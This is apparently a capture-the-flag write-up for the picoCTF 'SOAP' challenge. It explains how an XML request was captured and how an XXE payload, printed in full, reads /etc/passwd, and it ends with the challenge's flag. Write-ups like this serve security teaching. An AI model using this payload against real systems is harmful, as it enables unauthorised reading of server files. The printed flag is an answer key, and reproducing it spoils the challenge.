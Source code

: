 # SOAP

## Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

Challnege Link: [SOAP](https://play.picoctf.org/practice/challenge/376?category=1&page=2)

## HINTS

(None)

## Approach

Firstly, I see that this site does not have anything interesting, but there are buttons called `Details`.

![Screenshot from 2023-10-22 07-18-24](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/a39c66f8-69c3-47bc-8617-01cfe45e4c0e)

And if we click on it, some information appears, so let's capture it with burp

![Screenshot from 2023-10-22 07-18-33](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/a0b91372-383f-43c2-a6d8-65564c0a976b)
There are `XML` data sent to server then let's try to inject some `XML` code on it to read this file `/etc/passwd`

![Screenshot from 2023-10-22 07-29-26](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/edcafd3e-92a1-4f36-9e16-0078448aa79f)

And we got this file content and our flag with this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<data><ID>&xxe;</ID></data>
```

![Screenshot from 2023-10-22 07-21-54](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/8f0de241-795c-4429-85e5-e5e5df7d8c40)

# Flag

**picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}**
